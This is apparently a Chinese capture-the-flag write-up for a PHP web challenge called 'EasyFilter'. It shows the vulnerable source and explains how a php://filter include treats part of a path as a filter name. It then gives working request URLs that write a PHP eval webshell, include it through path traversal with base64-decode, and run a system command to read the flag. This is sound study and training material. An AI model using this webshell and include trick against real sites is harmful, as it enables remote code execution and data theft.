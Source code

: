 # EasyFilter



```php
<?php
    ini_set("open_basedir","./");
    if(!isset($_GET['action'])){
        highlight_file(__FILE__);
        die();
    }
    if($_GET['action'] == 'w'){
        @mkdir("./files/");
        $content = $_GET['c'];
        $file = bin2hex(random_bytes(5));
        file_put_contents("./files/".$file,base64_encode($content));
        echo "./files/".$file;
    }elseif($_GET['action'] == 'r'){
        $r = $_GET['r'];
        $file = "./files/".$r;
        include("php://filter/resource=$file");
    }
    
```

在最后一行代码那里正常包含文件`?action=r&r=d0165506bd`，发现有这些warning：

![image-20211023195300238](D:\this_is_feng\github\CTF\Web\writeup\第四届强网”拟态防御国际精英挑战赛-Web.assets\image-20211023195300238.png)

发现这么一行很奇妙的warning：

```
Warning: include(): unable to locate filter "d0165506bd" in /var/www/html/index.php on line 16
```

传过去的不是文件名吗，怎么被当成过滤器了？？？

但是能成功包含出内容，所以这是又被当成过滤器又被当成文件了？那尝试路径穿越写马：

```
http://124.70.181.14:32766/?action=w&c=<?php eval($_POST[0]);?>



http://124.70.181.14:32766/?action=r&r=convert.base64-decode/../d0165506bd

0=system('cat /fl*');
```

成功getshell。